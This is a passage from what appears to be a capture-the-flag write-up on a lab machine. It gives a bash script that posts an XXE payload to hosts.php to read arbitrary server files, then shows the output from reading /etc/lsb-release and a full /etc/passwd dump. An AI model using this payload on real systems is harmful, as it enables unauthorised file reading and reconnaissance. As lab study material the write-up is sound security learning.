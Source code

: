     exploit="<!DOCTYPE foo[
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM \"$file\"> ]>
    <details>
        <subnet_mask>&xxe;</subnet_mask>
        <test></test>
    </details>"

    echo "$exploit" > tmp
    curl -s -X POST -d @tmp http://10.10.10.78/hosts.php -x http://127.0.0.1:8080 | tee $(basename "$file")
    rm tmp





    root@kali# ./xxe_get_file.sh /etc/lsb-release

    There are 4294967294 possible hosts for DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=16.04
    DISTRIB_CODENAME=xenial
    DISTRIB_DESCRIPTION="Ubuntu 16.04.3 LTS"



Now grab `/etc/passwd` to reveal accounts on the box:



    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
    systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
    systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
    systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
    syslog:x:104:108::/home/syslog:/bin/false
    _apt:x:105:65534::/nonexistent:/bin/false
    messagebus:x:106:110::/var/run/dbus:/bin/false
    uuidd:x:107:111::/run/uuidd:/bin/false
    lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
    whoopsie:x:109:117::/nonexistent:/bin/false
    avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
    avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
    dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
    colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
    speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
    hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
    kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
    pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
    rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
    saned:x:119:127::/var/lib/saned:/bin/false
    usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
    florian:x:1000:1000:florian,,,:/home/florian:/bin/bash
    cliff:x:1001:1001::/home/cliff:/bin/bash
    mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
    sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
    ftp:x:123:130:ftp daemon,,,:/srv/ftp:/bin/false
